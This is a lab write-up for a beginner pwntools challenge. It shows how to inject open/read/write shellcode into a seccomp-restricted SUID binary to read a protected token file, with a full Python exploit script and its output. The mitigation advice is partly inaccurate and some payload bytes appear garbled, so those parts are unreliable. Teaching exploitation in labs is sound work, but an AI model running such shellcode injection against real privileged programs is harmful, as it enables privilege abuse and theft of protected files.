 # Writeup: Shellcode Runner Challenge
## 1. Challenge:
The **Shellcode Runner** challenge requires exploiting a vulnerable binary located at `/opt/shellcode_runner`. The goal is to read a token file at `/home/token-user/token.txt`. However, there are restrictions: the binary has seccomp rules enabled, blocking the `execve` syscall, meaning we can't spawn a shell. 
Additionally, the binary likely has SUID (Set User ID) permissions, which means that when executed, it runs with the privileges of the binary's owner (in this case, a user with access to the token file). This allows us to read the file even though our current user might not have direct permissions to do so.
- **Source:** Immersive Labs PwnTools course
- **Difficulty:** Beginner
## 2. Analysis:
The provided skeleton script includes basic logic to interact with the vulnerable binary. The key information here is the presence of seccomp filters that block the use of the `execve` syscall, making it impossible to spawn a shell. However, the seccomp rules still allow the use of syscalls such as `open`, `read`, and `write`, which suggests that the challenge can be solved by directly reading the token file and printing its contents to standard output.
The binary likely follows a typical flow for shellcode execution:
- It waits for a payload (shellcode) to be injected.
- The injected shellcode is executed within the binary with elevated permissions, due to the SUID setting.
Our goal is to craft shellcode that:
1. Opens the file `/home/token-user/token.txt`.
2. Reads the contents of the file.
3. Writes the contents to standard output.
## 3. Theory:
To solve this challenge, we must use the `open`, `read`, and `write` syscalls. Here's a brief overview of each:
- **sys_open**: Used to open files. It takes the file path as an argument and returns a file descriptor (FD).
- **sys_read**: Used to read data from a file. It takes the file descriptor, a buffer to store the data, and the number of bytes to read.
- **sys_write**: Writes data to a file descriptor. In our case, we write to `stdout` (file descriptor 1).
The **`pwn`** library's **shellcraft** module provides these syscall templates, making it easier to generate shellcode for this purpose. The shellcode should open the token file, read its contents, and then output the result.
## 4. Solution:
The key to solving this challenge was recognizing that while `execve` is blocked, file operations are not. To attempt a solution:
1. We used the `pwn.shellcraft.open` function to generate shellcode that opens the file `/home/token-user/token.txt`.
2. Next, we used `pwn.shellcraft.read` to read the file contents. Since we don't know the exact length of the file, we can read an arbitrary number of bytes (e.g., 100 bytes).
3. Finally, we used `pwn.shellcraft.write` to print the contents of the file to standard output.
By injecting this shellcode into the binary, it runs with elevated privileges, allowing us to access the token file, and successfully outputs the token.
## 5. How to avoid:
The vulnerability here arises from the ability to execute arbitrary shellcode within the binary. This could have been prevented by:
- **Stricter seccomp filters**: Expanding the seccomp rules to block other syscalls like `open`, `read`, and `write` would mitigate this vulnerability.
- **Disabling direct shellcode execution**: Instead of allowing user-provided shellcode to be executed, the binary could have been compiled with protections such as **Address Space Layout Randomization (ASLR)**, **Non-Executable (NX) stack**, and **Control Flow Integrity (CFI)**.
## 6. Full solution:
```python
from pwn import *
context.log_level = "error"
context.binary = "/opt/shellcode_runner"
context.arch = 'amd64'
p = process("/opt/shellcode_runner")
p.clean()
# Craft shellcode to open, read, and write the token file
shellcode = shellcraft.open("/home/token-user/token.txt")
shellcode += shellcraft.read('rax', 'rsp', 100)
shellcode += shellcraft.write(1, 'rsp', 100)
# Convert shellcode to byte payload
payload = asm(shellcode)
print("Payload", payload)
# Send the payload
p.sendline(payload)
p.recvline()
# Get and print the token
print(f"Token: {p.recvline().decode('utf-8').strip()}")
```
### Output:
```bash
iml-user@pwntools-ep-5:~/Desktop/lab-files$ python3 solve.py
Payload: b'hyu\x01\x01\x814$\x01\x01H\xb8/token.tPH\xb8ken-userPH\xb8/h\
ome/toPH\x89\xe7\x1dZl\xf6j\x02X\x0f\x05H\x89\xc7l\xc0jdZH\x89\xe6\x0f\x05j\x01\
jdZH\x89\xe6j\x01X\x0f\x05'
Token: f5fc3f
```
